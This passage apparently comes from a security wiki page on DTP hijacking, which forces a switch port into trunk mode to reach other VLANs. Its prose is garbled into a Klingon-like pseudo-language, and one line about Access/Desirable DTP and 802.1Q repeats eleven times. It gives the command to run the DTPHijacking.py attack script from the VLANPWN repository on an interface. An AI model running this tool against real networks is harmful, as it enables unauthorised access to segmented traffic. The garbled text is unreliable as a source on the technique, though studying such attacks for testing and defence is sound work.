 ![](<../../.gitbook/assets/image (646) (1).png>)

**VLANmey** jatlhlaHbe'chugh **DTPHijacking.py** [**script**](https://github.com/in9uz/VLANPWN/blob/main/DTPHijacking.py)**-Daq DTP Desirable frame generat**e **qaStaHvIS.** Qapbe'ghach DTP Desirable qaStaHvIS. **SwitchDaq 'ejvatlh DTP qaStaHvIS cha'logh vItlhutlh. cha'logh vItlhutlh, cha'logh qaStaHvIS cha'logh.**
```
sudo python3 DTPHijacking.py --interface eth0
```
**Access/Desirable (0x03)** **DTP** **802.1Q/802.1Q (0xa5)**

**Access/Desirable (0x03)** **DTP** **802.1Q/802.1Q (0xa5)**

**Access/Desirable (0x03)** **DTP** **802.1Q/802.1Q (0xa5)**

**Access/Desirable (0x03)** **DTP** **802.1Q/802.1Q (0xa5)**

**Access/Desirable (0x03)** **DTP** **802.1Q/802.1Q (0xa5)**

**Access/Desirable (0x03)** **DTP** **802.1Q/802.1Q (0xa5)**

**Access/Desirable (0x03)** **DTP** **802.1Q/802.1Q (0xa5)**

**Access/Desirable (0x03)** **DTP** **802.1Q/802.1Q (0xa5)**

**Access/Desirable (0x03)** **DTP** **802.1Q/802.1Q (0xa5)**

**Access/Desirable (0x03)** **DTP** **802.1Q/802.1Q (0xa5)**

**Access/Desirable (0x03)** **DTP** **802.1Q/802.1Q (0xa5)**
